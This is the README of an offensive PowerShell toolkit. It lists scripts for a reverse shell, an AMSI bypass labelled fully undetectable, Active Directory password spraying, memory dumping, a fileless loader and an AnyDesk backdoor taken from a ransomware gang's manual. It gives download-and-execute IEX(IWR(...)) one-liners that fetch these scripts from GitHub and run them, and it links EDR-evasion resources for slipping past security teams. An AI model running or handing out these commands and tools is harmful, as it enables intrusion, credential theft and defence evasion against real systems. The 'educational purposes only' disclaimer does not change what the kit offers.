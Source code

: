 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive securities scripts. The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage

All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!

# opsec/evasion

If you want to pull a sneaky on Blue Team/Soc, you should give a look at the following:

paper:

https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/

tools:

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/tokyoneon/Chimera

http://www.powertheshell.com/

https://github.com/klezVirus/inceptor

Of course, for most of the tasks, you don't need to use powershell and you can use signed ms binaries:

https://lolbas-project.github.io/

Also there's a few ways to run powershell without powershell.exe:

https://www.ired.team/offensive-security/code-execution/powershell-without-powershell




# roadmap

Add extra doc on usage

Add a privesc script that will go wmic qfe

Add an eventlogkiller (maybe)




# credits

All credits go to their respective owners:

revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation

FilelessDotNetLoader.ps1: S3cur3Th1sSh1t

https://github.com/S3cur3Th1sSh1t/Invoke-Sharpcradle

(You should probably give a look at his github, this mans's a powershell beast)


anydesk-backdoor.ps1: Conti Operators Manual (credit is credit)
